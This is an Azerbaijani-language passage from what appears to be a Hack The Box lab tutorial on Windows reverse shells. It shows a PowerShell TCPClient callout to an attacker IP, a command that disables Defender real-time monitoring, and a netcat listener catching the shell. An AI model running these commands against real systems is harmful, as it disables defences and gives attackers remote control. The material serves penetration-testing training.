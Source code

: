 **Command prompt-da Enter düyməsini basdıqda nə baş verdi?**

### Müştəri (Hədəf)

```
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

**Windows Defender antivirus** (AV) proqramı kodun icrasını dayandırdı. Bu, tam olaraq nəzərdə tutulduğu kimi işləyir və **müdafiə** baxımından bu bir **uğurdur**. **Hücum** nöqteyi-nəzərindən, qoşulmağa çalışdığımız sistemdə AV aktivləşdirilibsə, aşılması lazım olan bəzi maneələr var. Məqsədlərimiz üçün biz antivirusu **"Virus & threat protection settings"** vasitəsilə və ya inzibati PowerShell konsolunda (sağ klikləyin, administrator kimi çalışdırın) bu əmrdən istifadə edərək **deaktiv etməliyik**:

### AV-ni Deaktiv Etmək

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

AV deaktiv edildikdən sonra, kodu yenidən icra etməyə cəhd edin.

### Server (Hücum kompüteri)

```
nijatmansimov@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

Hücum kompüterimizə qayıtdıqda, tərs şelli uğurla qurduğumuzu görərik. Bunu **`PS`** ilə başlayan sorğunun dəyişməsindən və ƏS və fayl sistemi ilə qarşılıqlı əlaqədə olmaq qabiliyyətimizdən görə bilərik. Biraz praktika etmək üçün bəzi standart Windows əmrlərini işə salmağa cəhd edin.



















